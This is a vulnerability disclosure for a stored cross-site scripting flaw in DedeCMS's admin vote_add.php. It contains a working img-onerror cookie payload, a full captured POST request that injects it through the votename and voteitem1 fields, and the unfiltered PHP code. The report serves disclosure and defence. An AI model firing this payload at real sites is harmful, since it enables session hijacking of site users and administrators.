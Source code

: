# [DedeCMS<=V5.7.110-Stored XSS-vote_add.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain multiple cross-site scripting (XSS) vulnerabilities at /dede/vote_add.php via the `votename` and `voteitem1`  parameters.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.105/dedecms/dede/vote_add.php

**[Vulnerability Location]:** /dede/vote_add.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.105/dedecms/dede/vote_add.php

   payload：`<img src=1 onerror=alert(document.cookie)>`

   ![](../../img/20230814100407.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/vote_add.php HTTP/1.1
   Host: 192.168.0.105
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 320
   Origin: http://192.168.0.105
   Connection: close
   Referer: http://192.168.0.105/dedecms/dede/vote_add.php
   Cookie: menuitems=1_1%2C2_1%2C3_1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1691978132; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=582d3ad475d7b0e4; PHPSESSID=8608hb7v6n2rjca8r9n8onpk60; _csrf_name_9ede20a6=41362c7cd38c0125155b9cafef6fd2aa; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=d5617b42d6525a46; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Fvote_main.php
   Upgrade-Insecure-Requests: 1
   
   dopost=save&isarc=0&votename=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&starttime=2023-08-14+10%3A03%3A11&endtime=2023-09-13+10%3A03%3A11&isallow=1&view=1&spec=1&ismore=0&voteitem1=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&isenable=0&Submit=%E4%BF%9D%E5%AD%98%E6%8A%95%E7%A5%A8%E6%95%B0%E6%8D%AE
   ```

   

3. Visit http://192.168.0.105/dedecms/dede/vote_main.php

   ![](../../img/20230814100805.png)

4. Click it, visit http://192.168.0.105/dedecms/plus/vote.php?aid=6&dopost=view

   ![](../../img/20230814100940.png)

   ![](../../img/20230814101254.png)

**[code analysis]:**

In /dede/vote_add.php:

```php
<?php 
//...
if($dopost=="save" && $isarc == 0)
{
    $starttime = GetMkTime($starttime);
    $endtime = GetMkTime($endtime);
    $voteitems = "";
    
    $j = 0;
    for($i=1; $i<=15; $i++)
    {
        if(!empty(${"voteitem".$i}))
        {
            $j++;
            $voteitems .= "<v:note id=\\'$j\\' count=\\'0\\'>".${"voteitem".$i}."</v:note>\r\n";
        }
    }
    $inQuery = "INSERT INTO #@__vote(votename,starttime,endtime,totalcount,ismore,votenote,isallow,view,spec,isenable)
    VALUES('$votename','$starttime','$endtime','0','$ismore','$voteitems','$isallow','$view','$spec','$isenable'); ";
    if(!$dsql->ExecuteNoneQuery($inQuery))
    {
        ShowMsg("增加投票失败，请检查数据是否非法！","-1");
        exit();
    }
    $aid = $dsql->GetLastID();
    $vt = new DedeVote($aid);
    $vote_content = $vt->GetVoteForm();
    $vote_content = preg_replace(array("#/#","#([\r\n])[\s]+#"),array("\/"," "),$vote_content);//取出内容中的空白字符并进行转义
    $vote_content = 'document.write("'.$vote_content.'");';
    
    $vote_file = DEDEDATA."/vote/vote_".$aid.".js";
    file_put_contents($vote_file, $vote_content);
    ShowMsg("成功增加一组投票！","vote_main.php");
    exit();
}
//....
```

No filtering is done on votename and voteitem.

In /plus/vote.php and /templets/plus/vote.htm, `votename` and `votenote` are echoed on the page.



